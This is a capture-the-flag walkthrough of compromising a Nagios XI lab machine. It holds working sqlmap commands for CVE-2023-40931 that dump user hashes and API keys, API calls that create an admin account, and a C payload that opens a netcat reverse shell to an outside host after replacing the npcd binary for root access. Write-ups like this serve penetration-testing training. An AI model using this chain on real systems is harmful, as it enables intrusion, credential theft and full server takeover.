## 1. Enumeration

- `nmap`:
  - ssh
  - ldap
  - http, https

- `gobuster`:

```
gobuster dir -u https://nagios.monitored.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 64 --no-error -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nagios.monitored.htb
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 286]
/index.php            (Status: 200) [Size: 3245]
/javascript           (Status: 301) [Size: 335] [--> https://nagios.monitored.htb/javascript/]
/nagios               (Status: 401) [Size: 468]
/.php                 (Status: 403) [Size: 286]
/server-status        (Status: 403) [Size: 286]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

- website:
  - Nagios XI
  - default: `nagiosadmin:nagiosadmin`
  - no version => no cred

- `udp`
  - `snmp`

- `ldap`:

```
nmap -p 389 --script ldap-search,ldap-rootdse monitored.htb
Nmap scan report for monitored.htb (10.10.11.248)
Host is up (0.057s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search:
|   Context: dc=monitored,dc=htb
|     dn: dc=monitored,dc=htb
|         objectClass: top
|         objectClass: dcObject
|         objectClass: organization
|         o: monitored.htb
|_        dc: monitored
| ldap-rootdse:
| LDAP Results
|   <ROOT>
|       namingContexts: dc=monitored,dc=htb
|       supportedControl: 2.16.840.1.113730.3.4.18
|       supportedControl: 2.16.840.1.113730.3.4.2
|       supportedControl: 1.3.6.1.4.1.4203.1.10.1
|       supportedControl: 1.3.6.1.1.22
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.826.0.1.3344810.2.3
|       supportedControl: 1.3.6.1.1.13.2
|       supportedControl: 1.3.6.1.1.13.1
|       supportedControl: 1.3.6.1.1.12
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.1
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.3
|       supportedExtension: 1.3.6.1.1.8
|       supportedLDAPVersion: 3
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedSASLMechanisms: NTLM
|       supportedSASLMechanisms: CRAM-MD5
|_      subschemaSubentry: cn=Subschema

```

- `snmp`:

```
$ snmpwalk -v2c -c public -m ALL 10.10.11.248
```



## 2. Foothold


### 2.1 Credentias leakage

- `iso.3.6.1.2.1.25.4.2.1.5.581 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"`
  - `svc:XjH7VCehowpR1xZB`

- Login to `https://nagios.monitored.htb/nagios/` using the above cred 



- We can login using this cred to gain a token: ([link](https://support.nagios.com/forum/viewtopic.php?t=58783))

```
$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "c40c413ddd8101743e6783dbe3afc7d5c55fe1f1",
    "valid_min": 500,
    "valid_until": "Sun, 14 Jan 2024 11:09:24 -0500"
}

$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'
Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   236  100   184  100    52    669    189 --:--:-- --:--:-- --:--:--   861
c84a9dca5bd136863c75dfee62aee8e74760ab35
```

### 2.2 CVE-2023-40931

- Found a public vulnerability for this: [CVE-2023-40931](https://vuldb.com/?id.239985)

- Exploit:

```
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id
Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   236  100   184  100    52    177     50  0:00:01  0:00:01 --:--:--   227
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ xx:xx:xx /2024-01-xx/

[xx:xx:xx] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=iaj63ftndpg...g8m537866q'). Do you want to use those [Y/n] Y
[xx:xx:xx] [INFO] testing if the target URL content is stable
[xx:xx:xx] [INFO] target URL content is stable
[xx:xx:xx] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[xx:xx:xx] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1005 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (1312=1312) THEN 3 ELSE (SELECT 3137 UNION SELECT 9791) END))&token=55f8a0ce45accc71cc208805db70c67feaf69966

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 3988 FROM(SELECT COUNT(*),CONCAT(0x7176787a71,(SELECT (ELT(3988=3988,1))),0x7171786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&token=55f8a0ce45accc71cc208805db70c67feaf69966

    Type: time-based blind
    Title: MySQL > 5.0.12 OR time-based blind (heavy query)
    Payload: action=acknowledge_banner_message&id=3 OR 7646=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)&token=55f8a0ce45accc71cc208805db70c67feaf69966
---
[xx:xx:xx] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id -D nagiosxi -T xi_users --dump
Database: nagiosxi
Table: xi_users
[5 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$1c3050a52fe7f09a457e1uxIl3eEKBE87McomD7NxM/6b2bNhJ226 | nagiosadmin | 0          | 1701931372 | 1           | 1705221171  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 8              | 0              | 1705221171           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705220287   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 11             | 1699697433           |
| 6       | pwned@pwned.com     | pwned                | gurARgnMiFpSgIed7C8bGVNHKZcDMF6d5XU6giBiW5pk7nsq8A6Nqo5gf2pKkqXg | 1       | $2a$10$fe1219651355e97082d53OAxeJyROZajTv9RG7fHVoGGgKVBS0Lhe | pwned       | 0          | 1705220069 | 0           | 0           | 0            | 0            | b83Dmgna0VE4VlDANl6INoX08kDblEiAY3VYBEnclEaVZPVaFHkCA3s2rfEP7vFB | 0              | 0              | 1705217678           |
| 7       | pwned@pwned.com     | test                 | 8Mt9kfPJZjSj2blWsioYW20c3N57YnrqThZXgelTHbOr7IgpJ3VCnWoaPLJQ486l | 1       | $2a$10$1abfec87a3f3ff89fa7b6OQbyyDM0YEb7lv9fhm5PnUnRVbHN1aQG | test        | 0          | 1705218584 | 0           | 0           | 0            | 0            | LDOiDR39gSW9WdgsQJT6YLDYYv5mZTnATifU04lgnnpLH4TrInoqAKCGf7idpeng | 0              | 0              | 1705218592           |
| 8       | pwned@pwned.com     | uwu                  | HTHHVnaiPv290lXjPbC8NthsK7oTjjUWjRZZIUmjTrS2mdvZQdHaiOqKWfZMVYPd | 1       | $2a$10$c576236aaa35d133eb187OH0iiONbDKkxevbOCU7LKs368rpY5.Jq | uwu         | 0          | 1705220963 | 0           | 0           | 0            | 0            | QIEXZHRtvr3ps8kjNDFKCYL6Al2VERICejUrhbDSGbG5IbW4KvFabBmDdq2SlDs8 | 0              | 0              | 1705220973           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

- Get admin api key: `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`

- Now we can create a new admin-priv user using that api key ([link](https://support.nagios.com/forum/viewtopic.php?t=49647))
  - First let checking existing users: `/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1`
  - Add new user using this request:
```
curl -XPOST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1' -d 'username=phd&password=phd&email=phd@phd.com&name=phd&auth_level=admin' -k
{
    "success": "User account phd was added successfully!",
    "user_id": 17
}
```



- Now we can login to nagios using the above cred:



### 2.3 RCE of Nagios XI 5.11.0

- Go to `Configure` > `Advanced Configuration` and select 'Commands' 
- Add a new command of `rshell`:



- `nc` back to our server:



- Now we need to run the check command. On the left panel, choose `Monitoring` > `Hosts`

- Select our command in the `Check command` box then hit `Run Check Command`:



- Going back to our nc listener:



## 3. Privilege Escalation

- Enum of writeable & executable files using `linpeas`:



- Check sudo permission:

```
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

- Painfully, we have to check all these scripts till we found this `npcd` service:



- Let's check related files of that service:

```
nagios@monitored:~$ ls -l /usr/local/nagios/bin/npcd
-rwxr-xr-- 1 nagios nagios 31584 Nov  9 10:42 /usr/local/nagios/bin/npcd
nagios@monitored:~$ file /usr/local/nagios/bin/npcd
/usr/local/nagios/bin/npcd: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0495e0142fe3e8da74d856affb7ed26d18618d23, for GNU/Linux 3.2.0, not stripped

nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status npcd
● npcd.service - Nagios Process Control Daemon
     Loaded: loaded (/etc/systemd/system/npcd.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2024-01-14 10:57:35 EST; 1s ago
   Main PID: 3006 (npcd)
      Tasks: 1 (limit: 4661)
     Memory: 200.0K
        CPU: 3ms
     CGroup: /system.slice/npcd.service
             └─3006 /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
```

- Now it's easy. We just have to replace the `ncpd` file at `/usr/local/nagios/bin/`
with our malicious one (first off, we need to stop that service)

- Payload:

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    for(int i = 1; i < argc; i++) {
        if(strcmp(argv[i], "-f") == 0) {
            if(i + 1 < argc) {
                i++;
            }
        }
    }
    char *args[] = {"nc", "10.10.14.180", "8888", "-e", "/usr/bin/bash", NULL};
    execvp("nc", args);
    perror("execvp");
    return 1;
}
```

- Compile it and move it to `/usr/local/nagios/bin`:

```
nagios@monitored:~$ gcc exploit.c -o npcd
nagios@monitored:~$ mv /usr/local/nagios/bin/npcd /usr/local/nagios/bin/npcd.bak
nagios@monitored:~$ cp npcd /usr/local/nagios/bin/npcd
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```



---

### Exploit chain:

- Port scan 
- `LDAP` recon 
- `snmp` recon 
- Credentials leakage 
- Login using backend API to gain ticket `auth_token` 
- CVE-2023-40931 Authenticated SQLi 
- Admin API key 
- Create a new admin-priv user 
- Login to admin page 
- Create a `rshell` command and execute 
- User shell 
- Check permission (`sudo -l`) 
- `npcd `service (writable and sudo executable) 
- Create a malicious `npcd`
- Start that fake `npcd` service 
- root shell